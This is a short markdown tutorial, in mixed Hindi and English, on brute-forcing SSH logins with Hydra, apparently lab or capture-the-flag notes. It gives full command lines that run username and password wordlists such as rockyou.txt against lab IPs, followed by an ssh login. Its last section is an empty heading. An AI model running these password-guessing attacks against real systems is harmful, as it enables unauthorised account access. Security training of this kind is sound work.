


<!-- TOC -->

- [What is SSH Secure Shell?](#what-is-ssh-secure-shell)
- [What is Hydra?](#what-is-hydra)
    - [Installing Hydra](#installing-hydra)
        - [How to Work with Hydra](#how-to-work-with-hydra)
    - [How to use Hydra to Brute-Force SSH Connections?](#how-to-use-hydra-to-brute-force-ssh-connections)
        - [Usage:](#usage)
    - [Brute-Force SSH Web Form](#brute-force-ssh-web-form)
        - [Example 1: Bruteforcing Both Usernames And Passwords](#example-1-bruteforcing-both-usernames-and-passwords)
        - [Example 2: Bruteforcing Passwords](#example-2-bruteforcing-passwords)
    - [Brute-Force Post Web Form](#brute-force-post-web-form)

<!-- /TOC -->

# What is SSH (Secure Shell)?


- SSH (Secure Shell) ek cryptographic network protocol hai jo unsecured networks par secure communication ke liye istemal hota hai. Unsecured networks wo networks hote hain jin par kisi bhi tarah ka security mechanism nahi hota, jaise ki public Wi-Fi hotspots ya phir internet par data transmit karne wale open networks. 

- SSH allows secure remote access to systems, file transfers, aur doosre network services by encrypting data transmission between clients and servers. Iske istemal se data ki suraksha bani rahti hai aur kisi bhi tarah ke unauthorized access ya phir data ko churane ki koshish ko roka ja sake. 

- SSH ko remote administration aur secure file transfer ke liye wide taur par istemal kiya jata hai, jo data ke confidentiality aur integrity ko maintain karta hai.


# What is Hydra?


- Hydra was developed by the hacker group “The Hacker’s Choice”. Hydra was first released in 2000 as a proof of concept tool that demonstrated how you can perform attacks on network logon services.

- Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.


- Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

- Hydra can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.


- This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed. 

- A one-hundred-million-password list contains common passwords, so when an out-of-the-box application uses an easy password to log in, change it from the default! CCTV cameras and web frameworks often use `admin:password` as the default login credentials, which is obviously not strong enough.

## Installing Hydra

- Hydra comes pre-installed with Kali Linux and Parrot OS. So if you are using one of them, you can start working with Hydra right away.

- Hydra is already installed on the AttackBox. You can access it by clicking on the Start AttackBox button.


- On Ubuntu, you can use the apt package manager to install it:

````bash
$ apt install hydra
````


### How to Work with Hydra

- If you have installed Hydra, you can start with the help command like this:


````bash
$ hydra -h
````

- This will give you the list of flags and options that you can use as a reference when working with Hydra.


## How to use Hydra to Brute-Force SSH Connections?


`Syntax`
````bash
$ hydra -l <username> -P <full path to password word list> MACHINE_IP -t 4 ssh

````


<table>
  <tr>
    <th>Option</th>
    <th>Description</th>

  </tr>
  <tr>
    <td>-l</td>
    <td> specifies a (SSH) username for login during a brute force attack.  </td>

  </tr>
  <tr>
    <td>-P</td>
    <td>Specifies a password wordlist to use during a brute force attack. </td>

  </tr>
  <tr>
    <td>-t</td>
    <td>sets the number of threads to spawn</td>

  </tr>
  
</table>

### Usage:


##  Brute-Force SSH Web Form


### Example 1: Bruteforcing Both Usernames And Passwords


`Syntax`
````bash
$ hydra -L user.txt -P pass.txt <IP> ssh -t 4
````

`Example ;-`
- Type the below command on the terminal and hit Enter.

````bash
$ hydra -L user.txt -P pass.txt 192.168.29.135 ssh -t 4
````


- `-l` specifies a `username` during a brute force attack.
-` -L` specifies a `username wordlist` to be used during a brute force attack.
- `-p` specifies a `password` during a brute force attack.
- `-P` specifies a `password wordlist` to use during a brute force attack.
- `-t `set to 4, which ` sets the number of parallel tasks ` (threads) to run.


### Example 2: Bruteforcing Passwords 

- in this example you have username but you don,t have password

`syntax`

```bash

$ sudo hydra -l <userName> -P passwordlist.txt <IP> -V -f

$ ssh <Your UserName>@<Ip>
```

`Example`

```bash
$ sudo hydra -l molly -P rockyou.txt 10.10.236.46 -V -f

$ ssh molly@10.10.236.46
```


`next`



## Brute-Force Post Web Form

 SSH